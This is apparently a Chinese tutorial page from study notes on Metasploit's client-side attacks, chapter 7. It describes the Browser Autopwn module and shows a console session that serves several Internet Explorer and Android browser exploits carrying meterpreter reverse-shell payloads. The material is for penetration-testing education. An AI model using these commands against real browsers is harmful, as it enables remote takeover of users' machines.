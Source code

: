 ```yaml
---
title: MasterMsf 7 客户端渗透
category: metasploit
---
```


# {{ page.title }}

## 启程

> “我明白你会来，所以我等。” 

> I am good at reading people. My secret, I look for worst in them.

本章将研究实践对浏览器等客户端的攻击。

## 浏览器渗透

### Browser Autopwn

这是Metasploit中的一个模块，它对各种浏览器进行自动化攻击。其工作流程是：加载所有浏览器渗透模块并处于监听状态，同时开启不同平台的反向shell监听。接着等待浏览器连接，然后根据浏览器版本信息发送对应的攻击向量，图示如下：

![Bildschirmfoto 2018-10-30 um 12.59.35 PM.png]({{ site.url }}/images/metasploit/245B4C0C07EB25327FDF08ED25211FF4.png)

下面我们对Win2K上的IE 6进行测试。仔细观察模块的加载和启动过程：

```bash
msf > use auxiliary/server/browser_autopwn
msf auxiliary(server/browser_autopwn) > set LHOST 172.16.56.1
LHOST => 172.16.56.1
msf auxiliary(server/browser_autopwn) > set SRVPORT 8080
SRVPORT => 8080
# / 表示根目录，即各种渗透模块都使用
msf auxiliary(server/browser_autopwn) > set URIPATH /
URIPATH => /

msf auxiliary(server/browser_autopwn) > run
[*] Auxiliary module running as background job 0.

[*] Setup
msf auxiliary(server/browser_autopwn) >
[*] Starting exploit modules on host 172.16.56.1...
[*] ---

# 启动各种攻击向量
[*] Starting exploit android/browser/webview_addjavascriptinterface with payload android/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:8080/lHmin
[*] Local IP: http://192.168.1.101:8080/lHmin
[*] Server started.
[*] Starting exploit windows/browser/ie_cgenericelement_uaf with payload windows/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:8080/kINjsZQVDtv
[*] Local IP: http://192.168.1.101:8080/kINjsZQVDtv
[*] Server started.
[*] Starting exploit windows/browser/ie_createobject with payload windows/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:8080/wNShgBZlWcq
[*] Local IP: http://192.168.1.101:8080/wNShgBZlWcq
[*] Server started.
[*] Starting exploit windows/browser/ie_execcommand_uaf with payload windows/meterpreter/reverse_tcp
```